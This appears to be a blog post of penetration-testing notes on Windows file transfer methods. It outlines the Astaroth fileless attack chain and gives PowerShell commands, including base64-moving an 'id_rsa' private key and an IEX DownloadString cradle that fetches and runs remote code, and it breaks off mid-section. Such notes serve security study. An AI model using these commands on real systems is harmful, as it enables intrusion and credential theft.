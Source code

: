 ```yaml
---
title: "5 File Transfers"
description: "file transfer refers to the process of transmitting digital files between systems, often over a network or the internet."
pubDate: "May 09 2025"
heroImage: "/ftpp.jpg"
---
```


# Notes on Windows File Transfer Methods.

## Introduction
- Understanding Windows file transfer methods aids attackers in evading detection and defenders in monitoring and securing systems.
- **Example**: Microsoft Astaroth Attack, an advanced persistent threat (APT) using fileless techniques.
  - **Steps**:
    1. Spear-phishing email with URL to an archive containing an LNK file.
    2. LNK file triggers WMIC with "/Format" to download and execute malicious JavaScript.
    3. JavaScript uses Bitsadmin to download base64-encoded payloads.
    4. Certutil decodes payloads into DLLs; regsvr32 loads a DLL, injecting the final payload into the Userok process.
  - **Fileless Threats**: Run in memory to avoid detection, not stored as traditional files.

## File Transfer Methods

### PowerShell Base64 Encode & Decode
- **Purpose**: Transfer files without network communication by encoding to base64.
- **Process**:
  - Encode on source (e.g., Linux):
    ```bash
    cat id_rsa | base64 -w 0
    ```
  - Decode on Windows:
    ```powershell
    [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64_string>"))
    ```
  - Verify integrity with MD5:
    - Linux: `md5sum id_rsa`
    - Windows: `Get-FileHash -Path C:\Users\Public\id_rsa -Algorithm MD5`
- **Limitations**:
  - CMD string limit: 8,191 characters.
  - Web shells may fail with large strings.

### PowerShell Web Downloads
- **Context**: HTTP/HTTPS often allowed, enabling web-based transfers.
- **Methods**:
  - **System.Net.WebClient**:
    - `DownloadFile`:
      ```powershell
      (New-Object Net.WebClient).DownloadFile('https://<URL>', '<OutputPath>')
      ```
    - `DownloadString` (fileless):
      ```powershell
      IEX (New-Object Net.WebClient).DownloadString('https://<URL>')
      ```
  - **Invoke-WebRequest** (PowerShell 3.0+):
    - Slower, supports aliases (`iwr`, `wget`).
    - Example: